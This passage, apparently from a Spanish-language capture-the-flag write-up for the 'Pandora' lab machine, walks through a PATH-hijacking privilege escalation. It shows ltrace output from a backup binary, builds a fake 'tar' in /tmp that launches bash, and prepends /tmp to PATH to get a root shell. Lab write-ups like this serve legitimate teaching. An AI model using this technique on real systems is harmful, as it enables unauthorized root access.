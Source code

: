 ```bash
matt@pandora:/$ ltrace /usr/bin/pandora_backup
_______________________________________________________________________
getuid()                                                                      = 1000
geteuid()                                                                     = 1000
setreuid(1000, 1000)                                                          = 0
puts("PandoraFMS Backup Utility"PandoraFMS Backup Utility
)                                             = 26
puts("Now attempting to backup Pandora"...Now attempting to backup PandoraFMS client
)                                   = 43
system("tar -cvf /root/.backup/pandora-b"...tar: /root/.backup/pandora-backup.tar.gz: Cannot open: Permission denied
tar: Error is not recoverable: exiting now
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                        = 512
puts("Backup failed!\nCheck your permis"...Backup failed!
Check your permissions!
)                                  = 39
+++ exited (status 1) +++
```
---
Aquí observamos que el comando `tar` se ejecuta sin una ruta absoluta, lo que significa que el sistema buscará el binario `tar` en los directorios especificados por la variable `PATH`. Esto abre la puerta a un ataque conocido como PATH Hijacking. La idea es crear un archivo `tar` malicioso en un directorio al que tengamos acceso, como `/tmp`, que en lugar de comprimir archivos, ejecute un shell con privilegios elevados. Primero, creamos un archivo llamado `tar` en `/tmp` que contiene una simple ejecución de `bash`:

```bash
matt@pandora:/$ cd temp && echo "/usr/bin/bash" > tar && chmod +x tar
```
---
Luego, modificamos la variable `PATH` para que busque primero en `/tmp`, asegurándonos de que nuestro script malicioso se ejecute en lugar del comando legítimo `tar`.

```bash
matt@pandora:/tmp$ echo $PATH 
_______________________________________________________________________
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```
---
A continuación, ajustamos el `PATH` y verificamos que el cambio se haya aplicado correctamente.

```bash
matt@pandora:/tmp$ export PATH=/tmp:$PATH
matt@pandora:/tmp$ echo $PATH 
_______________________________________________________________________
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```
---
Con el `PATH` modificado, cuando ejecutamos nuevamente `pandora_backup`, el sistema busca el comando `tar` en `/tmp` y ejecuta nuestro script malicioso, otorgándonos una shell como root.
